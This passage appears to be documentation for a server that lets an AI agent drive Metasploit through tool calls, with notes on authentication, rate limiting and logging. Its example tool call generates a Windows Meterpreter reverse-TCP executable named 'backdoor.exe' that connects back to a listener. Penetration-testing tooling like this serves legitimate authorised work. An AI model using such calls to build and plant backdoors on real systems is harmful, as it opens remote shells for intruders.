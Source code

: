 ### Generating a Payload

```json
{
  "tool": "generate_payload",
  "arguments": {
    "payload_type": "windows/meterpreter/reverse_tcp",
    "format_type": "exe",
    "options": {
      "LHOST": "192.168.1.100",
      "LPORT": 4444
    },
    "output_filename": "backdoor.exe"
  }
}
```

## Security Considerations

- The server requires authentication to the Metasploit RPC service
- Generated payloads are saved to a configured directory on the server
- All network operations respect the configured bind address validation
- Session commands have configurable timeouts to prevent hanging
- The server validates all input parameters before passing to Metasploit

## Rate Limiting

Currently, no rate limiting is implemented. Consider implementing rate limiting in production environments to prevent abuse.

## Logging

All operations are logged with appropriate levels:
- INFO: Normal operations, connections, tool usage
- WARNING: Non-fatal errors, timeouts, validation failures  
- ERROR: Fatal errors, connection failures, unexpected exceptions
- DEBUG: Detailed operation traces (enable with LOG_LEVEL=DEBUG)
